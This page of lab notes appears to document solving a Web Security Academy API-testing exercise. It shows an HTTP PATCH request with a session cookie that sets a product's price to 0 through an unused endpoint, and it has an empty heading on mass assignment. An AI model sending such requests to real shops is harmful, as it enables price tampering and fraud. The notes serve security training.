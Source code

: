 # API Testing

## Finding and exploiting an unused API endpoint

The `price` endpont not only allows the `GET` methode but also `PATCH` 

```
PATCH /api/products/1/price HTTP/2
Host: 0ad10068036333308060530f007800d6.web-security-academy.net
Cookie: session=f1t8Tfqc7LY7RwwMuWYwYG5mA2CxkpFc
[...]
Content-Type: application/json;charset=UTF-8
Content-Length: 12

{"price": 0}
```

## Exploiting a mass assignment vulnerability


